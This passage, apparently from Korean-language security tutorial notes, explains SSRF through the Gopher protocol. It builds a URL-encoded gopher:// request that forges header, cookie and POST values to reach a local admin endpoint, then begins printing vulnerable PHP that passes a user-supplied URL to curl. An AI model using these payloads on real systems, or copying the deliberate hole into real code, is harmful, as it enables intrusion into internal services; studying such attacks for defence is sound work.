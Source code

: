 **Gopher HTTP (Header)**

- 만약 다음 PHP 코드로 구성되어 있을 경우 다음과 같이 Gopher를 활용하여 통과할 수 있습니다.

```php
<?php
	if (isset($_SERVER['HTTP_XXXX']))
		echo "True";
?>
```

```php
GET / HTTP/1.1\r\n
XXXX:1234\r\n\r\n
```

- 위의 예시를 통해 다음 조건이 걸려 있다면 다음과 같이 구성을 하면됩니다.

```php
$_SERVER['REMOTE_ADDR'] === '127.0.0.1'
$_SERVER['HTTP_ADMIN'] === 'admin'
$_COOKIE['admin'] === 'admin'
$_POST['admin'] === 'admin'
```

- 공격 요청 패킷 정렬

```php
gopher://127.0.0.1:80/_POST /api/admin.php HTTP/1.1
Host: 127.0.0.1\r\n
ADMIN: admin\r\n
Cookie: admin=admin;\r\n
Connection: close\r\n
Content-Length: 11\r\n
Content-Type: application/x-www-form-urlencoded\r\n
\r\n
\r\n
admin=admin
```

- gopher 프로토콜 포맷 정렬

```php
gopher://127.0.0.1:80/_POST%20/api/admin.php%20HTTP/1.1%0d%0aHost:%20127.0.0.1%0d%0aADMIN:%20admin%0d%0aCookie:%20admin=admin;%0d%0aConnection:%20close%0d%0aContent-Length:%2011%0d%0aContent-Type:%20application/x-www-form-urlencoded%0d%0a%0d%0aadmin=admin
```

### Gopher 프로토콜 활용 데이터베이스 접근

**취약한 대상 애플리케이션 소스 코드**

```php
<?php
    error_reporting(0);

    $conn = mysqli_connect('localhost', 'root', '', 'db_perpus');

    if (isset($_GET['source'])) {
        $source = $_GET['source'];
    } else {
        $source = '';
    }

    if (isset($_GET['url'])) {
        $result = 'Do Not Url..';
        $c_i = curl_init();
        curl_setopt($c_i, CURLOPT_URL, $_GET['url']);
        curl_setopt($c_i, CURLOPT_TIMEOUT, 5);
        curl_setopt($c_i, CURLOPT_CONNECTTIMEOUT, 5);
```